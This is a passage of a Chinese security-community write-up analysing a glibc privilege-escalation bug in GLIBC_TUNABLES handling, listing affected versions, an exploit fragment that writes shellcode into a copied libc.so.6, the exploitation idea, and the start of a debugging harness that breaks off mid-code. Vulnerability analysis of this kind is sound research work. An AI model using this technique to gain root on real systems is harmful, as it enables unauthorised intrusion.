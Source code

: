 

# 一次 glibc 提权漏洞的分析与调试 - 先知社区

一次 glibc 提权漏洞的分析与调试

- - -

# 漏洞版本

glibc 2.35-0ubuntu3 (aarch64)

glibc 2.36-9+deb12u2 (amd64)

# 漏洞利用

## exp 关键代码

```bash
with open(hax_path["path"] + b"/libc.so.6", "wb") as fh:
        fh.write(libc_e.d[0:__libc_start_main])
        fh.write(shellcode)
        fh.write(libc_e.d[__libc_start_main + len(shellcode) :])
```

**exp 代码思路**

该漏洞发生在 GLIBC\_TUNABLES 环境变量处理过程中，可能存在缓冲区溢出漏洞。  
通过修改 GLIBC\_TUNABLES 的值来替换 libc 的加载路径，从而加载自己修改过的恶意库。  
找到一个合适的栈地址来覆盖原始的 libc 加载路径  
使用 ASLR 关闭的方式来尝试利用该漏洞

## 调试

**test.c**

```bash
#include <stdio.h>

unsigned long ptr = -0x18ULL;

int main(int argc, char *argv[])
{
    printf("test");
    return 0;
}
```

**环境变量**

```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void *__minimal_malloc(size_t size) {
    return malloc(size);
}

int main() {
    char fill[0xd00];
    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=";
    strcpy(fill, prefix);

    size_t prefixLength = strlen(prefix);
```